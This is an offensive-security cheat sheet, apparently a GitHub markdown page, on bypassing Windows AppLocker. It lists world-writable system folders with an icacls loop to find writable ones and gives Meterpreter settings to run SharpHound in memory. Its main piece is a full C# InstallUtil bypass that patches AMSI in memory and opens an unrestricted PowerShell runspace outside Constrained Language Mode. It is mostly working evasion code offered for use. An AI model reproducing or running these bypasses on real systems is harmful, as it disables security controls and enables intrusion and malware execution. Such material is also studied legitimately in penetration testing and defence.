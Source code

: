 # AppLocker CockBlocker

- Bascially makes life a pain in the ass by preventing execution of your favourite executables unless they are in whitelisted location

Reference: (https://juggernaut-sec.com/applocker-bypass/)

## Checking if AppLocker is live

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## Check if Default World-Writeable Folders are well Writable for your User

Compile the following into a txt file

```
C:\Windows\Tasks 

C:\Windows\Temp 

C:\windows\tracing

C:\Windows\Registration\CRMLog

C:\Windows\System32\FxsTmp

C:\Windows\System32\com\dmp

C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\System32\spool\PRINTERS

C:\Windows\System32\spool\SERVERS

C:\Windows\System32\spool\drivers\color

C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\System32\Tasks_Migrated

C:\Windows\SysWOW64\FxsTmp

C:\Windows\SysWOW64\com\dmp

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

Then on a cmd prompt, run the following script to see which folders you have Write perms

```cmd
for /F %A in (C:\temp\icacls.txt) do ( cmd.exe /c icacls "%~A" 2>nul | findstr /i "(F) (M) (W) (R,W) (RX,WD) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. ) 
```

## Via ADS



##  Via God-Tier Meterpreter's Post Exploit Module Execute dotnet Assembly

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/execute_dotnet_assembly.md

```
set SESSION 1

set DOTNET_EXEC <path to the exe you want executed>

set ARGUMENTS <the flags and commands you will pass to the DOTNET_EXEC>

# For example, if i want to run sharphound.exe

set DOTNET_EXEC ./SharpHound.exe

set ARGUMENTS -c ALL --outputdirectory C:\Users\Public
```


## Interactive CInstaller Bypassess AMSI

- Use with InstallUtil. This grants you a runspace to execute powershell in full CLM

```powershell
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Collections.ObjectModel;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;


namespace CInstaller
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            string cmd;
            Runspace rs = RunspaceFactory.CreateRunspace();
            PowerShell ps = PowerShell.Create();
            rs.Open();
            ps.Runspace = rs;

            // disable amsi
            ps.AddScript(@"$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "" * iUtils"") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "" * Context"") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)");
            ps.Invoke();

            while (true)
            {
                Console.Write("PS " + Directory.GetCurrentDirectory() + ">");
                Stream inputStream = Console.OpenStandardInput();

                cmd = Console.ReadLine();

                if (String.Equals(cmd, "exit"))
                    break;

                Pipeline pipeline = rs.CreatePipeline();
                pipeline.Commands.AddScript(cmd);

                pipeline.Commands.Add("Out-String");

                try
                {
                    Collection<PSObject> results = pipeline.Invoke();
                    StringBuilder stringBuilder = new StringBuilder();

                    foreach (PSObject obj in results)
                    {
                        stringBuilder.Append(obj);
                    }

                    Console.WriteLine(stringBuilder.ToString().Trim());
                }
                catch (Exception e)
                {
                    Console.WriteLine(e.ToString());
                }


            }

            rs.Close();
        }
    }

}
```